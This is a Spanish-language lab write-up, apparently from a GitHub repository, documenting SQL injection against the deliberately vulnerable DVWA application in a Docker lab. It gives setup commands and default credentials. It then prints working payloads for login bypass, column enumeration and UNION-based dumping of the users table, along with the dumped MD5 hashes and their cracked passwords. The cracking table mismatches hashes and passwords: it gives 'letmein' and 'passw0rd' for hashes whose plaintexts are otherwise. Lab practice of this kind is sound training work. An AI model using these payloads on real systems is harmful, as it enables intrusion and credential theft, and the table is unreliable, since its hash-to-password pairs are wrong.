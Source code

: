 # Introducción

En este laboratorio se utilizó DVWA (Damn Vulnerable Web Application) desplegado mediante Docker sobre una máquina virtual con VMware para simular un entorno vulnerable.  
El objetivo fue aprender técnicas de SQL Injection en un entorno controlado y documentar paso a paso la explotación, incluyendo evidencias y análisis técnico.

---

# Entorno Técnico

- **Virtualización**: VMware Workstation 16  
- **Contenedor**: DVWA v1.10 en Docker  
- **Base de datos**: MariaDB 10.4  
- **Nivel de seguridad**: Low (modo de prueba inicial)

---

# Configuración del Entorno

## Instalación de Docker
```bash
sudo apt-get update && sudo apt-get install docker.io
Despliegue de DVWA
bash
docker run --rm -it -p 80:80 vulnerables/web-dvwa
Configuración Inicial
Acceso web: http://localhost

Usuario: admin

Contraseña: password

Explotación de SQL Injection
Bypass de Autenticación
Payload usado:

sql
' OR '1'='1
Determinación de estructura de columnas
Pruebas:

sql
1' ORDER BY 2 -- → Éxito
1' ORDER BY 3 -- → Error
Listado de tablas
sql
1' UNION SELECT table_name, NULL FROM information_schema.tables --
Extracción de credenciales
sql
1' UNION SELECT user, password FROM users --
Resultados:

admin:5f4dcc3b5aa765d61d8327deb882cf99
gordonb:e99a18c428cb38d5f260853678922e03
1337:8d3533d75ae2c3966d7e0d4fcc69216b
pablo:0d107d09f5bbe40cade3de5c71e9e9b7
smithy:5f4dcc3b5aa765d61d8327deb882cf99
Crackeo de Hashes MD5
Herramienta utilizada: CrackStation
Hash	Contraseña
5f4dcc3b5aa765d61d8327deb882cf99	password
e99a18c428cb38d5f260853678922e03	abc123
8d3533d75ae2c3966d7e0d4fcc69216b	letmein
0d107d09f5bbe40cade3de5c71e9e9b7	passw0rd
Errores y Aprendizajes
Errores comunes:

Intenté usar UNION SELECT 1,2,3 sin validar el número de columnas, lo que generó un error. Tras probar con ORDER BY, confirmé que solo había 2 columnas.

Problemas con comillas al olvidar que MariaDB requiere sintaxis estricta.

Lecciones clave:

Validar número exacto de columnas antes de usar UNION.

Usar NULL en columnas no relevantes.

sqlmap es útil para automatizar pruebas complejas.

Conclusiones
DVWA en nivel 'Low' es altamente vulnerable a inyecciones SQL básicas.

Los hashes MD5 se crackearon en segundos (ej: 'password'), lo que refuerza la necesidad de usar algoritmos modernos como bcrypt.

Recomiendo probar en niveles 'Medium' o 'High' para analizar protecciones avanzadas.

Repositorio: GitHub/Lucased12